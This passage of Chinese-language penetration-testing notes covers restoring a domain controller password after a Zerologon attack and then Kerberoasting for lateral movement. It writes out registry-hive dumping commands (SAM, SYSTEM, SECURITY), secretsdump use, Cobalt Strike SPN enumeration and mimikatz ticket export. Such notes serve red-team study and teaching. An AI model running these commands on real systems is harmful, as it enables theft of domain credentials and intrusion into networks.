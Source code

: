 ![image-20210131113948798](C:/Users/Rainbow/AppData/Roaming/Typora/typora-user-images/image-20210131113948798.png)

**恢复密码**

工具：https://github.com/risksense/zerologon

在上面执行的cmd下执行如下命令

```
# SHELL 
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.saveget security.save
del /f system.save
del /f sam.save
del /f security.save
exit
```

然后利用 `secretsdump` 解析保存在本地的NT hash

![image-20210131120225956](C:/Users/Rainbow/AppData/Roaming/Typora/typora-user-images/image-20210131120225956.png)

记录下上面获取的数据，接下来使用上面提到的工具恢复hash

```
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR <ORI_HASH>
```

![image-20210131120402995](C:/Users/Rainbow/AppData/Roaming/Typora/typora-user-images/image-20210131120402995.png)

测试用空密码访问，已经失效了

![image-20210131120434157](C:/Users/Rainbow/AppData/Roaming/Typora/typora-user-images/image-20210131120434157.png)

### 横向移动

#### SPN

 cobalt strike

```
shell setspn -T test.com -Q */*   探测域内存活的相关服务
```

导出票据

```
mimikatz.exe "kerberos::list /export"
```

由于加密类型是RC4_HMAC_MD5，Kerberos协议第四步TGS-REP将会返回用服务帐户的NTLM密码哈希加密的票据。
使用字典进行暴力破解：（2.txt为字典）

https://github.com/nidem/kerberoast
